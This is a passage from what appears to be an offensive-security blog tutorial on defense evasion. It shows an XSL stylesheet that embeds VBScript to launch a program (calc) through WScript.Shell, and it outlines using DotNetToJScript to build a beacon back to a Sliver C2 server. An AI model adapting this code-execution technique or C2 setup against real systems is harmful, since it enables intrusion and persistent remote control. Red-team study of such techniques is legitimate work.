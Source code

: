 So here we can modify the following XML structure to execute our code:

```xml
<?xml version='1.0'?>
<stylesheet
    xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
    xmlns:user="placeholder"
    version="1.0">
    <output method="text"/>
    <ms:script implements-prefix="user" language="VBScript">
    <![CDATA[
Set wshshell = CreateObject("WScript.Shell")
Wshshell.run "Calc"
]]></ms:script>
</stylesheet>
```
Well, well, here we have a good starting point. The guys from [ired.team](https://www.ired.team/offensive-security/defense-evasion/executing-csharp-assemblies-from-jscript-and-wscript-with-dotnettojscript) have a post about using DotNetToJScript. So Let's start with this. First, on the machine that we have VS, we have to download [DotNetToJScript](https://github.com/tyranid/DotNetToJScript). Then before compiling, let's see what we have as the default. We have a `TestClass` constructor and a RunProgram method. Our goal is to have a beacon back on our sliver C2 so, first, we need to modify the code from the `ExampleAssembly` TestClass.

<img src="/images/2024-06-27-imgs/3-testclass.png" alt="">

